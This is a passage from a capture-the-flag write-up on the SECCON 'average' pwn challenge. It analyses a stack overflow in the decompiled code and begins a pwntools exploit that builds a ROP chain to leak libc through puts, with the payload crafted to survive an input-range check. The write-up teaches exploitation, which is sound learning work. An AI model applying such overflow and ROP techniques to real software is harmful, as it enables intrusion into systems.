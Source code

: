 As we overwrite memory we'll have to be careful with a couple of the variables so that we do not mess up the loop logic.

The array is `local_a8` and is `0xa8` from the end of the stack frame (where the return address is and where we need to land our ROP chain).

`local_28` is `n`:

```
printf("n: ");
iVar1 = __isoc99_scanf(&DAT_00402008,&local_28);
```

So we'll need to preserve this, or this loop:

```
for (local_10 = 0; local_10 < local_28; local_10 = local_10 + 1) {
```

will not have the desired results.  `local_10` (`i`) as well will need to be correctly handled.

There's one more _gotcha_:

```
if (A[i]<-123456789LL || 123456789LL<A[i])
```

Input checking.  This will require a bit of creativity.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
from binascii import hexlify

binary = context.binary = ELF('./average', checksec=False)

if args.REMOTE:
    p = remote('average.quals.seccon.jp', 1234)
    libc = ELF('./libc.so.6', checksec=False)
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntool header.

```python
pop_rdi = binary.search(asm('pop rdi; ret')).__next__()

rop = [
    pop_rdi,
    binary.got.puts,
    binary.plt.puts,
    binary.sym.main
]

payload  = []
payload += ((0xa8 - 0x28) // 8) * [0xAAAA]
payload += [(0xa8 // 8) + len(rop)]
payload += 2 * [0xBBBB]
payload += [len(payload)]
payload += ((0xa8 // 8) - len(payload)) * [0xCCCC]
payload += rop

for i in payload: assert(-123456789 <= i <= 123456789)

n = len(payload)
```